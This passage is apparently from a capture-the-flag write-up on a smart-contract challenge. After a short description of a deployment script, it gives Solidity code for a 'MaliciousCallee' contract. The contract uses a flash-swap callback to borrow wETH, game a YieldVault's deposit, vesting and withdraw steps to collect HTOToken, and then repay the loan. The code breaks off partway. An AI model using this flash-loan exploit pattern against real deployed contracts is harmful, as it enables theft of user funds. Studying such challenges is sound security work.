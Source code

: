 A deployment script that deploys all contracts, mints initial token supplies to the vault and swap contracts, and sets up ownership and permissions for the NFTs. It prepares the environment for the challenge.

---

## Exploitation

`MaliciousCallee.sol`:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

import { Swap } from "../src/Swap.sol";
import { WETH } from "../src/WETH.sol";
import { HTOToken } from "../src/HTOToken.sol";
import { YieldVault } from "../src/YieldVault.sol";
import { console } from "../lib/forge-std/src/console.sol";
import { IERC721Receiver } from "../lib/openzeppelin-contracts/contracts/token/ERC721/IERC721Receiver.sol";

interface IUniswapV2Callee {
  function uniswapV2Call(address sender, uint amount0Out, uint amount1Out, bytes calldata data) external;
}

contract MaliciousCallee is IUniswapV2Callee, IERC721Receiver {
    Swap public swapContract;
    WETH public wETH;
    HTOToken public htoToken;
    YieldVault public yieldVault;
    string public flag;
    address public player;

    constructor(address _swapContract, address _player, address _wETH, address _htoToken, address _yieldVault) {
        swapContract = Swap(_swapContract);
        player = _player;
        wETH = WETH(_wETH);
        htoToken = HTOToken(_htoToken);
        yieldVault = YieldVault(_yieldVault);
    }

    function uniswapV2Call(address maliciousCallee, uint amount0Out, uint amount1Out, bytes calldata data) external override {
        console.log("balance of wETH after borrowing (calling swap()): ", wETH.balanceOf(address(this)));
        console.log("Let's use the borrowed wETH to get HTOToken before returning it back");
        console.log("We can call deposit() to get qualified first and call vesting() to get HTOToken and then withdraw() to get wETH back");
        wETH.approve(address(yieldVault), 200000002);
        yieldVault.deposit(200000002);
        yieldVault.vesting(0);
        console.log("balance of HTOToken after calling vesting() : ", htoToken.balanceOf(address(this)));
        yieldVault.withdraw(0, true);
        console.log("balance of HTOToken after calling withdraw() : ", htoToken.balanceOf(address(this)));
        console.log("Nice we have enough HTOToken dy, let's return the wETH back");
        wETH.transfer(address(swapContract),200000002);
    }

    function swap() public {
```